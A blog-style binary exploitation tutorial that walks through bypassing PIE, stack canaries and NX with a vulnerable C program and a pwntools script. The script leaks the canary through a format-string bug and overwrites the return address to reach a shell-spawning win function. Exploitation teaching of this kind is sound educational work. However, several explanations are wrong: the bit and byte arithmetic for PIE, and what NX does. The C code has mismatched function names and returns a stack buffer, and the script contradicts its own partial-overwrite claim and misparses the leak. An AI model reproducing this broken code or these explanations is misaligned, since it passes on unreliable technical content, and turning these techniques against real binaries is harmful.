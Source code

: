 +++
author = "Emily Miller"
title = "How to: Buffer overflows with PIE, Canaries, and NX Bit"
date = "2025-02-10"
description = """Here's a (more) realistic guide on how to exploit a modern buffer
overflow"""
categories = [ "binary-exploitation" ]
+++

What stack protections are we talking about? Here we're only talking about
bypassing PIE, Stack Canaries, and NX Bit, because these are found in almost every binary
compiled nowadays and you will be expected to know this in any basic binary
exploitation exercise.

#### You speak all these words, woman, but I understand not.

**What's PIE?**

PIE stands for Position Independent Executable, and all it means is
that it can get loaded into different positions in memory randomly at runtime,
which makes exploitation a bit harder. How do we bypass this in terms of buffer
overflows?  Using *partial address overwrites*! Instead of overwriting the
entire buffer, we can only overwrite the last 2 bytes, and because of things get
loaded in, 12 of those bytes will be the same every time, so we only need to
brute force 2^4 or 16 combinations.

**What's a stack canary?**

Stack canaries are the bread and butter of modern buffer overflow protections.
The idea is that we can place some specific (usually 8 byte) value between the
function memory and the return address, and we check that this canary hasn't
changed before jumping to that return pointer. If it has, we'll exit the
program, and often give the error `**** stack smashing detected ****`. How do we
bypass this? Well, there's 2 main ways: we can either jump / avoid the canary, for instance if we
have something like `buffer[i] = ptr`, and we're able to control both `i` and
`ptr`, we can avoid the canary all together. Otherwise, if we can leak the
canary using a separate vulnerability we can overwrite it with the same address,
bypassing the protection.

**What's NX Bit?**

NX Bit is a protection to mark some areas of memory as executable, some as
writable, and some as read-only. This makes basic shellcode injections (for
instance with NOP sleds), much harder. This means that when we don't have a win
function, we're going to have to use pre-existing code to our advantage, using
something like ROP or a `one_gadget` to find a de-facto win function.

#### Worked example

Let's take our code from the previous challenge, except this time, we want to
attack it without using compiler flags to disable any protections. See the code
below:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
    char buffer[64];  // Vulnerable buffer size
    int size;

    printf("Enter the size of your input: ");
    scanf("%d", &size);  // User inputs the size for fgets

    if (size > 0 && size < sizeof(buffer)) {
        printf("Enter your input: ");
        fgets(buffer, size, stdin);
	    print_quotes(buffer);
    }
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

Going piece by piece, what changes do we need to make to the exploit? Well,
first, we're going to need to change our code to only perform a partial
overwrite on the return address to bypass PIE. We're also going to need to find
a way to leak the stack canary... luckily, we're given a win function, so NX bit
is fairly trivial to bypass.

How do we leak the canary? Well, this is where that whole second vulnerability
thing comes in. In this case, in the `print_quoted` function, there's a format
string vulnerability, which will allow us to leak the canary by inserting
carefully constructed format string (notice how we're using the `printf` directly
on the user input, meaning that whatever we type in will be treated as a format
string). In this case, we'll only need a simple payload to leak the address, but
in the future, you'll learn that you can actually often gain complete program
control with a vulnerability like this.

```python
from pwn import *

process_name = "./vulnerable"
offset = 123 # Given by the program
win_address = 0x1234 # You get this from GDB directly, notice the address is
# shorter because only the last 2 bytes will stay the same
format_string_offset = 12

p = process(process_name)

# This is a basic format string exploit to leak the canary and extract it into a
# byte string, you don't need to worry about this for now
payload_fmt = b"%" + bytes(str(format_string_offset), "utf-8") + b"$p"
p.recv()
p.sendline(payload_fmt)
canary_value = bytes.fromhex(p.recv(11)[3:])

# Back to the buffer overflow part
payload = b"A"*(offset-16) + canary_value + b"B"*8 + p64(win_address) # <-- standard buffer overflow payload

p.sendline(bytes(str(offset+2), "utf-8")) # <-- IMPORTANT: Make sure you only
# overwrite 2 bytes of the address, because the payload, if done in full, will
# fill the rest of the address with zeros and break it. You can do some
# modifications of the payload if you have to, but this is easier for challenges like this

p.sendline(payload)

p.interactive()
```

So that's how you exploit a buffer overflow with protections!
